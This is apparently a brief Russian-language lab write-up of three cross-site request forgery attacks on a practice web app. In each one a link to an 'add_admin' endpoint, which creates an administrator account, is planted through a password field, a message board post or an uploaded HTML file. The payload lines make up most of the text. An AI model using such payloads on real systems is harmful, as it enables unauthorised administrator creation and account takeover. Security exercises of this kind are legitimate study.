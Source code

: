 ## Атака 1
Аккаунт нового пользователя создается с таким паролем <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>     (a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User" )

## Атака 2

В Message Board можно отправить такое сообщение <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>   (<a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">)


## Атака 3

B Upload PoC File можно добавить test.html с таким содержанием <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a> (<a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">)
